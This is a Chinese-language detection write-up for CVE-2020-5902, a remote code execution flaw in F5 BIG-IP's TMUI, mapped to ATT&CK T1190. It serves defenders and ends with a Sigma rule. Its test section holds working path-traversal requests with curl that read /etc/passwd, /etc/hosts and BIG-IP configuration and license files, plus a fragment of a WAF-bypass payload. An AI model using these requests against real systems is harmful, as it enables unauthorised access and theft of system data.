 # T1190-CVE-2020-5902-F5_BIG-IP-远程代码执行

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使对手获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

F5 BIG-IP 是美国F5公司一款集成流量管理、DNS、出入站规则、web应用防火墙、web网关、负载均衡等功能的应用交付平台。在 F5 BIG-IP 产品的流量管理用户页面 (TMUI)/配置实用程序的特定页面中存在一处远程代码执行漏洞。

未授权的远程攻击者通过向该页面发送特制的请求包，可以造成任意Java 代码执行。进而控制 F5 BIG-IP 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。

漏洞影响范围：

11.6.x, 12.1.x, 13.1.x, 14.1.x, 15.0.x, 15.1.x

## 检测日志

HTTP.log

## 测试复现

漏洞利用建议参考：

F5 BIG-IP 远程代码执行漏洞（CVE-2020-5902） 漏洞利用

<https://blog.csdn.net/wuyou1995/article/details/107170186/>

cve-2020-5902 RCE的payload以及绕过方式

<https://www.cnblogs.com/potatsoSec/p/13263806.html>

## 测试留痕

暂无实测，故无留痕。直接引用漏洞利用建议参考中的案例数据进行特征提取。

### 文件读取POC

```yml
curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license

https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```

### 通过java反序列化绕过waf的payload

```yml
String dburl = "jdbc:hsqldb:https://" + server +
                               ":443/tmui/login.jsp/..%3b/hsqldb/"; #截取部分内容
```

## 检测规则/思路

### sigma规则

```yml
title: CVE-2020-5902 F5 BIG-IP 远程代码执行漏洞
status: experimental
references:
    - https://blog.csdn.net/wuyou1995/article/details/107170186/
    - https://www.cnblogs.com/potatsoSec/p/13263806.html
author: Florian Roth
translator: 12306Bro
date: 2020/07/05
logsource:
    category: webserver
detection:
    selection_base:
        c-uri|contains: 
            - '/tmui/'
            - '/hsqldb'
    selection_traversal:
        c-uri|contains:
            - '..;/'
            - '.jsp/..'
    condition: selection_base and selection_traversal
fields:
    - c-ip
    - c-dns
falsepositives:
    - Unknown
tags:
    - attack.initial_access
    - attack.t1190
level: critical
```

### 建议

建议使用HTTP流量+安全设备进行检测分析判断攻击是否成功。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

F5 BIG-IP 远程代码执行漏洞（CVE-2020-5902） 漏洞利用

<https://blog.csdn.net/wuyou1995/article/details/107170186/>

cve-2020-5902 RCE的payload以及绕过方式

<https://www.cnblogs.com/potatsoSec/p/13263806.html>